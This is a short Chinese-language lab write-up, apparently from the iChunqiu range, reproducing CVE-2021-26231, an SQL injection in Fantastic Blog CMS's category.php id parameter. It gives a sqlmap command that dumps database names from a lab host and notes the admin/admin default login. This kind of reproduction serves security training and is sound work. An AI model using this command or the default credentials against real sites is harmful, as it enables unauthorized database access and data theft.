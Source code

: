 ```yaml
---
title: CVE-2021-26231【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

Fantastic Blog (CMS)是一个绝对出色的博客/文章网络内容管理系统。它使您可以轻松地管理您的网站或博客，它为您提供了广泛的功能来定制您的博客以满足您的需求。它具有强大的功能，您无需接触任何代码即可启动并运行您的博客。 该CMS的/category.php文件中，id参数存在一个SQL注入漏洞。

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2021-26231)

## 2. 漏洞分析

[GitHub - BigTiger2020/Fantastic-Blog-CMS-](https://github.com/BigTiger2020/Fantastic-Blog-CMS-/tree/main)

## 3. 漏洞复现

sqlmap

```python
 python sqlmap.py -u http://eci-……………….cloudeci1.ichunqiu.com/category.php?id=1 -p id --dbs --batch
```

注，后台登录admin/admin
